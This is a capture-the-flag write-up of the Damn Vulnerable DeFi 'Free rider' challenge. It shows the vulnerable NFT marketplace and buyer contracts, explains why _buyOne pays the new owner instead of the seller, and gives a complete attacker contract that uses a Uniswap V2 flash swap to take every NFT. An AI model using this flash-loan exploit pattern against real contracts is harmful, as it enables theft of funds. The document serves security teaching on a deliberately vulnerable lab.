 #+AUTHOR: Francesco Cannarozzo
* Free rider
** Statement
   
** Files
*** FreeRiderNFTMarket.sol
**** Code
     #+BEGIN_SRC solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableNFT.sol";

/**
 * @title FreeRiderNFTMarketplace
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderNFTMarketplace is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public token;
    uint256 public amountOfOffers;

    // tokenId -> price
    mapping(uint256 => uint256) private offers;

    event NFTOffered(address indexed offerer, uint256 tokenId, uint256 price);
    event NFTBought(address indexed buyer, uint256 tokenId, uint256 price);
    
    constructor(uint8 amountToMint) payable {
        require(amountToMint < 256, "Cannot mint that many tokens");
        token = new DamnValuableNFT();

        for(uint8 i = 0; i < amountToMint; i++) {
            token.safeMint(msg.sender);
        }        
    }

    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices) external nonReentrant {
        require(tokenIds.length > 0 && tokenIds.length == prices.length);
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _offerOne(tokenIds[i], prices[i]);
        }
    }

    function _offerOne(uint256 tokenId, uint256 price) private {
        require(price > 0, "Price must be greater than zero");

        require(
            msg.sender == token.ownerOf(tokenId),
            "Account offering must be the owner"
        );

        require(
            token.getApproved(tokenId) == address(this) ||
            token.isApprovedForAll(msg.sender, address(this)),
            "Account offering must have approved transfer"
        );

        offers[tokenId] = price;

        amountOfOffers++;

        emit NFTOffered(msg.sender, tokenId, price);
    }

    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _buyOne(tokenIds[i]);
        }
    }

    function _buyOne(uint256 tokenId) private {       
        uint256 priceToPay = offers[tokenId];
        require(priceToPay > 0, "Token is not being offered");

        require(msg.value >= priceToPay, "Amount paid is not enough");

        amountOfOffers--;

        // transfer from seller to buyer
        token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller
        payable(token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }    

    receive() external payable {}
}

     #+END_SRC
**** Breakdown
***** State
      the contract maintains a reference to the *DamnValuableNFT* contract,
      as well as a counter of existing offers, which are stored in a mapping
      of tokenIds to prices.
***** Constructor
      As the contract is deployed, the *payable* constructor mints as many tokens in favor of the 
      deployer as passed through the *amountToMint* parameter.
***** offerMany
      passed an array of *tokenIds* and one of *prices*, 
      calls on *_offerOne()* to offer those tokenIds for sale at the corresponding prices.
***** _offerOne
      allows one token to be put up for sale, given *tokenId* and *price*, after meeting various requirements:
      a non zero price, that *msg.sender* actually owns the token to be put up for sale,
      and finally that the token has been approved. Upon completion of such requirements,
      the appropriate *offers* entry is updated, and the counter incremented. Finally,
      the appropriate event is emitted.
***** buyMany
      Passed an array of *tokenIds*, calls *_buyOne()* on each of them.
***** _buyOne
      provided with a *tokenId*, if that token is up for sale and *msg.value* is enough,
      proceeds to transfer token to *msg.sender*,
      then pays the previous owner.

      ...or at least it would like to: the payment is in favor of *token.ownerOf(tokenId)* :
      after the transfer, that corresponds to *msg.sender*. By purchasing a single token,
      we can get our money back immediately. This could have been avoided by paying the seller
      before transferring the token, one of the many cases of a bug caused by two lines in the wrong order.

      as we say in Italy, /pagare moneta, vedere cammello/.
*** FreeRiderBuyer.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

/**
 * @title FreeRiderBuyer
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderBuyer is ReentrancyGuard, IERC721Receiver {

    using Address for address payable;
    address private immutable partner;
    IERC721 private immutable nft;
    uint256 private constant JOB_PAYOUT = 45 ether;
    uint256 private received;

    constructor(address _partner, address _nft) payable {
        require(msg.value == JOB_PAYOUT);
        partner = _partner;
        nft = IERC721(_nft);
        IERC721(_nft).setApprovalForAll(msg.sender, true);
    }

    // Read https://eips.ethereum.org/EIPS/eip-721 for more info on this function
    function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    ) 
        external
        override
        nonReentrant
        returns (bytes4) 
    {
        require(msg.sender == address(nft));
        require(tx.origin == partner);
        require(_tokenId >= 0 && _tokenId <= 5);
        require(nft.ownerOf(_tokenId) == address(this));
        
        received++;
        if(received == 6) {            
            payable(partner).sendValue(JOB_PAYOUT);
        }            

        return IERC721Receiver.onERC721Received.selector;
    }
}

     #+END_SRC
**** Breakdown
***** State
***** onERC721Received
** Exploit
   because of the bug in *_buyOne()*, a single flashLoan of 15 eth would be enough to acquire
   all the tokens. but how do we get a loan in the first place?
   Looking up the documentation for *UniSwapV2Pair.sol*, we see how, by calling *swap()* with 
   a contract, a flash swap is actually initiated: *msg.sender* is supposed then to implement
   *uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data)*, as specified
   in the *IUniswapV2Callee* Interface. Then, the pair calls upon the function,
   forwarding tokens, and expecting them to be repaid at the end of the transaction.

   We can exploit this mechanism, along with the previous bug, to craft a malicious contract.

   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Callee.sol';
import "../../DamnValuableNFT.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "../../free-rider/FreeRiderNFTMarketplace.sol";
import '@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol';

interface IWETH9 {
    function withdraw(uint amount0) external;
    function deposit() external payable;
    function transfer(address dst, uint wad) external returns (bool);
    function balanceOf(address addr) external returns (uint);
}


contract FreeRiderAttacker is IUniswapV2Callee {

        using Address for address;

    FreeRiderNFTMarketplace marketplace;
    DamnValuableNFT token;
    IWETH9 weth;
    address buyer;
    address attacker;
    IUniswapV2Pair pair;
    uint256[] tokenIds = [0,1,2,3,4,5];


    constructor(address payable _marketPlaceAddress, address _tokenAddress,
        address _wethAddress, address _buyer, address _attacker, address _pair){
            pair = IUniswapV2Pair(_pair);
            attacker = _attacker;
            buyer = _buyer;
            weth = IWETH9(_wethAddress);
            token = DamnValuableNFT(_tokenAddress);
            marketplace = FreeRiderNFTMarketplace(_marketPlaceAddress);
        }

        function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external override {

    // withdraw weth 
        weth.withdraw(amount0);
    //buy tokens
        marketplace.buyMany{value: address(this).balance}(tokenIds);

    // now we can put our wETH  back and repay

        weth.deposit{value: address(this).balance}();

    weth.transfer(address(pair), weth.balanceOf(address(this)));
 
        //send tokens to buyer
        for(uint i = 0; i<6 ; i++){
            token.safeTransferFrom(address(this) , buyer,i );
        }


        }


    function attack(uint256 amount) external {

        pair.swap(amount,0,address(this), new bytes(1));
    }
    //to accept safe transfers
       function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    )
    external
    returns (bytes4)
    {
        return IERC721Receiver.onERC721Received.selector;
    }

        receive() external payable {}

}
   #+END_SRC
   
   We would initiate the attack by calling *attack()* from the /attacker/ address:
   the method would request for a swap, causing the pair to call upon *uniswapV2Call*.

   Now we can convert our withdrawn eth (15 is enough) to purchase all tokens,
   and immediately deposit them again into wETH, and transfer them to the pair paying
   the loan back. This is, yet again, possible because of the bug in *_buyOne()*.

   Finally, we forward our tokens to the buyer's contract, and collect our payout.
